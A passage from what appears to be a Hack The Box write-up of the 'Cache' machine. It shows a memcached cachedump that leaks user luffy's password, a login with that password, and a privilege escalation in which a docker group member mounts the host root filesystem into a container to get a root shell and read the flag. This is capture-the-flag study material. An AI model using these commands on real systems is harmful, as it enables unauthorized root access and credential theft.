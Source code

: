 > Reference : [https://www.hackingarticles.in/penetration-testing-on-memcached-server/](https://www.hackingarticles.in/penetration-testing-on-memcached-server/)

![Untitled](/img/htb-cache/Untitled%2018.png)

`stats items` reveals slab ID `1`. So we can dump it using `stats cachedump`

> **Here 1 and 0 are the parameters,
1 =** slab ID.
**0 =** It represents the number of keys you want to dump, 0 will dump all the keys present in the slab ID respectively.

I got user `luffy` password `0n3_p1ec3`

```bash
ash@cache:/home$ su luffy
su luffy
Password: 0n3_p1ec3

luffy@cache:/home$ id
id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
luffy@cache:/home$
```

## Privilege Escalation:

I run my Linux Enumeration script and it reveals

![Untitled](/img/htb-cache/Untitled%2019.png)

That `luffy` is in group docker.

In this case, the user can run a light container with `/etc` mounted in and then get root access in the container.

I used [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) and it also tells the same thing the user must be in docker group and it also tell us  how to get interactive shell.

I already got the Image ID from my enumeration script so

```bash
luffy@cache:/home/ash$ docker run -v /:/mnt --rm -it 2ca708c1c9cc chroot /mnt sh
< run -v /:/mnt --rm -it 2ca708c1c9cc chroot /mnt sh
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
ea-------------------------------a20
```

We own the box.